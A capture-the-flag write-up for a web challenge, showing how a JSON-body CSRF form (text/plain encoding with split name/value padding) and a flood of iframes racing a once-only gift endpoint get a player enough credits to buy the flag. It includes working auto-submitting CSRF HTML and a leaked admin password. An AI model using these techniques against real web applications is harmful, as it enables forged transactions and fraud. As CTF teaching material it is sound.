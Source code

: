 ## Premise

At first look at the site, we see login and register tabs. Once you create an account and login, we are greeted with our goal and our challenge.

### Our Goal
There is a recipe with a description "This challenge's flag" for sale for 1000 credits. We are given 100 credits to start with no visibile way of getting more. We somehow need to either steal the recipe without paying or find a way to give ourselves enough credit.


### Our Challenge
On the bottom of the page, there is a place to submit a website that the admin will view. Based on this being a web challenge with "cookies" in the title,
it's pretty clear that we'll be using the admin to get something done. 


### Source code analysis, all 800 lines :(
The source code shows us a pretty secure system. The sql is done with prepared statements and there doesn't appear to be any trickery allowed with any of the functions.
We can see that the database is seeded with an admin user that has an id of 0. We can see that there are several API endpoints that will be useful. 
By visting `/api/userInfo?id=0`, we can see the admins username and password. Unfortunately we can't login as the admin because there is a restrictive IP whitelist for 
the admin to log in. Oh well. There is an interesting function called **gift** that allows the admin user to gift 150 credits to a user. The catch is that 
a gift can only be given to a user once and there is a boolean column on user that tracks this. After receiving a gift, the database is updated and the user 
cannot receive another gift. There is a noticable lack of a CSRF token on this endpoint, but to make up for it, there's a "clever" trick:
```
  // Check admin password to prevent CSRF
  let body;
  try {
      body = await util.parseRequest(req);
  } catch (error) {
      res.writeHead(400);
      res.end();
      return;
  }
```
The problem here is that this app doesn't accept a traditional HTML form, it uses a POST request with a JSON body. HTML forms are easy to exploit with CSRF, but a POST
request with a JSON body is CSRF resistant (but not impervious). That means to exploit this, we'd either need to find XSS on the website that we can share with the admin
or we'll need to find a way to create a CSRF form that has a JSON body.

### Crafting the exploit 
First thing we want to do is reliably find a way to get the admin to gift us tokens. After looking at every value we can control, we can quickly rule out XSS.
That means we'll probably need to find a way to commit **CSRF**. To get your user id, visit the api endpoint `/api/getId`, we're going to need it for our CSRF.
#### Normal CSRF
```
<form class='chunky' action="https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=13394421154615314178">
  <label for="adminpassword">Admins Password Lol:</label><br>
  <input type="password" name="data" value="<script></srcipt>"><br>
  <input type="submit" value="Submit">
</form>

<script>
window.onload = function(){
  $(".chunky").map(function(_, form){
   form.submit()
  });
}
</script>
```
This is a traditional CSRF attempt. When the admin visits the page, the javascript automatically submits the form to the gift endpoint with my user id giving 
me 150 credits. Unfortunately it doesn't have a JSON body so this will get rejected even though it includes the admin password.

#### CSRF with a JSON body
I had to do some research to find out how to make this happen. This article was super useful https://medium.com/@osamaavvan/json-csrf-to-formdata-attack-eb65272376a2.
Basically we'd need to rely on some mutation of the form that tricks the endpoint to thinking what we submitted was JSON. We do this through some trickery with the name
attribute.
```
<form class='chunky' action="https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=15252815482492019401" method="post" enctype="text/plain">
<input type=”text” name='{"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn","padding":"' value='true"}'>
<input type="submit" value="send">
</form>
<script>
window.onload = function(){
  $(".chunky").map(function(_, form){
    form.submit()
  });
}
</script>
```
As you can see, there is a padding entry that is split up at the end of the name attribute that gets continued at the value attribute. For some reason, this 
mutates to a valid JSON body that is parsed by the app succesfully. So all we need to do is get the admin to view a page with this value and we'll get our gift.
#### Setting up a publically accessible website
I always use the following method to get a site up quickly.
``` 
php -S localhost:2020
ngrok http 2020
```
This will take your current directory, serve it on localhost:2020, and the ngrok will create a publically accesible url that maps to your localhost.
So we have our publically accessible website, all we need to do is submit it to the admin. We can see that this worked as our balance increases by 150, but 
submitting it again fails due to the column on our user row being changed. 
```
  // Make sure user has not already received a gift
  try {
      if (database.receivedGift(user_id)) {
          util.respondJSON(res, 200, result);
          return;
      }
  } catch (error) {
      res.writeHead(500);
      res.end();
      return;
  }
```
Darn... but at least we know we can hit this endpoint.
#### Getting the Flag with Race Conditions
We noticed that theres some time in the gift function between when the balance on the user is updated and when the giftReceived column is updated. This means that 
theres a possible race condition where we can hit the gift endpoint multiple times in rapid succession and we'd have our balance updated multiple times before it gets
marked that we've received a gift. 
I created a new page that would house our CSRF form in iframes. When the page loads, all the iframes will load and each will submit the form. After doing this twice 
with about 6 iframes, I saw my balance was 400. This means that it worked, normally we'd only be able to get 250 (100 starting + 150 gift). So all I needed to do 
was have a lot more iframes. The ending number of frames that got me a high enough balance to purchase the flag was 121 (but probably could've been done with more or
less). 
